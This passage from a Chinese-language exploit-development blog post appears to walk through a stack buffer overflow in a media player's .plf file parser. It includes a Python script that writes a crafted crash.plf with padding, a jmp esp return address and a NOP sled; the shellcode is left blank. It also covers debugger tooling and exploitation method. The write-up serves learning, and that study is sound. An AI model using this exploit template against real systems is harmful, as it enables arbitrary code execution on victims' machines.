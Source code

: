 ```c
        while ( sub_640469D4(&v20, &v19) );
```

`(*v16)(v2[59], 1, v14++, v17, v15);`动态调用漏洞函数，这个过程和函数`sub_640469D4`的结果可能就决定了plf的文件格式。在调试过程中发现，即使文件内容全为大写字符也出现不进入漏洞函数或者多次进入漏洞函数的情况。搜索得知plf是该软件的独有格式，如果全部逆向清楚各种影响shellcode的格式，可能还是会花费一个星期，这样是没有意义的，直接有效的shellcode对漏洞利用过程来说就是高效的，要时刻记住我们的终极目标，当然对逆向工程比较感兴趣的同学可以继续逆一逆。

如果直接覆盖返回地址来完成漏洞利用，那么关键的便是第二次的strcpy，目的栈地址的偏移为0x104，和原文中一致。使用MediaPlayerCtrl中`jmp esp`的地址和大写字母的shellcode同样可以弹出计算器：

```python
padding = "A" * 260
ret = "\x0b\xea\x05\x64" # 6405ea0b jmp esp
nop = "\x90" * 16
junk = "A" * 1000

shellcode =  ""
payload = padding + ret + nop + shellcode

with open("crash.plf", "w") as f:
    f.write(payload)
```

# 0x03 工具使用

原文中介绍了[Immunity Debugger](https://www.immunityinc.com/products/debugger/)和其插件的使用，可以使用他人写好的插件的和py命令来加速漏洞利用的过程，插件的道理和Ollydbg类似，但API的逻辑和编写使用还是需要时间理解的。另外，作者在[2012年](https://www.corelan.be/index.php/2012/12/31/jingle-bofs-jingle-rops-sploiting-all-the-things-with-mona-v2/)把mona.py移植到了windbg下（完美主义者的福音）。文章和使用例子都写得很清楚，我也就不赘述了，可以大致总结下漏洞利用的过程：

1. 确定漏洞触发点。
2. 根据安全机制和漏洞环境确定漏洞利用方案。
3. 对整个漏洞利用过程的完善调试。

# 0x04 总结

这么长时间没有更新博客的原因，是在对该软件的破解花费了一个星期的时间，因为逆向思路的不清晰，在最后快要放弃的时候出现了转机。韶华宝贵，始终要以漏洞利用的目标为导向，这当然也要和完美的分析过程相互平衡的。也想到了一个解决钻牛角尖的办法，设定一个钻的时间，可能是因为知识的水平不够或者思路不够清晰，导致时间已过问题还没解决，那就暂且放一放继续前往终极目标，这个遗留的问题可以交给潜意思、时间和交流等方法来化解。

使用工具是我们人类的一个特点，私以为漏洞利用也是如此，加速的工具只是器，顶多算得上是优秀的术，其中的道是相对不变的，对道的完全掌握自然可以达到手中无剑心中有，我自然也是喜欢这种感觉的。
